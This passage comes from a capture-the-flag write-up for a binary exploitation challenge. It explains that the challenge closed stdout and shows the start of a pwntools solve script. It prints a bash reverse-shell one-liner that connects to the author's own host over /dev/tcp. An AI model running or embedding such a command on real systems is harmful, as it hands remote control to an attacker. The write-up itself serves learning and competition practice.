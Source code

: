 ![blind_shell.png](images/blind_shell.png)

Why? Because the challenge author brilliantly closed our precious `stdout` :) As I discussed previously, I opted for getting a reverse shell back to my controlled server. I used the following command after getting shell on remote server to open a reverse shell back to me:
```bash
bash -c 'sh -i >& /dev/tcp/<YOUR_IP>/<YOUR_PORT> 0>&1'
```
And within no time, I could execute my precious `cat flag.txt` and got the [flag](#flag)!
## solve.py
```python
#!/usr/bin/env python3.8

from pwn import *
import warnings
import re

# Allows you to switch between local/GDB/remote from terminal
def connect():
    if args.GDB:
        r = gdb.debug(elf.path, gdbscript=gdbscript)
    elif args.REMOTE:
        r = remote("chal.hkcert23.pwnable.hk", 28352)
        # r = remote("localhost", 1337)
    else:
        r = process([elf.path])
    return r

# Specify GDB script here (breakpoints etc)
gdbscript = """
    set follow-fork-mode child
    handle SIGALRM nopass
    start
    b *vuln+51
"""

# Binary filename
exe = "./chall_patched"
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = "info"
warnings.filterwarnings(
    "ignore",
    category=BytesWarning,
    message="Text is not bytes; assuming ASCII, no guarantees.",
)
```